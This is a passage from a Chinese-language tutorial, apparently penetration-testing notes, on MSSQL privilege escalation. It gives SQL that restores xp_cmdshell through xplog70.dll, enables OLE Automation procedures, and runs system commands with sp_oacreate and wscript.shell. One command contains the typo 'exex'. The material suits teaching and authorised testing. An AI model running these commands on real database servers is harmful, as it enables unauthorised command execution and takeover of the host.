 如果xp_cmdshell被删除了，可以上传xplog70.dll进行恢复。

```sql
exex master.sys.sp_addextendedproc 'xp_cmdshell','C:\Program Files\Microsoft SQL Server\MSSQL10_50.MSSQLSERVER\MSSQL\Binn\xplog70.dll'
```

### sp_oacreate进行提权

主要是用来调用OLE对象，利用OLE对象的run方法执行系统命令。

执行下面的命令，发现是关闭状态。

```sql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null, 'c:\windows\system32\cmd.exe /c whoami >C:\\1.txt'
```

![sp_oacreate关闭状态](./MsSQL/sp_oacreate关闭状态.png)

```sql
启用：
EXEC sp_configure 'show advanced options',1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures',1;
RECONFIGURE WITH OVERRIDE;
 
关闭：
EXEC sp_configure 'show advanced options',1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures',0;
RECONFIGURE WITH OVERRIDE;
```

开启sp_oacreate。
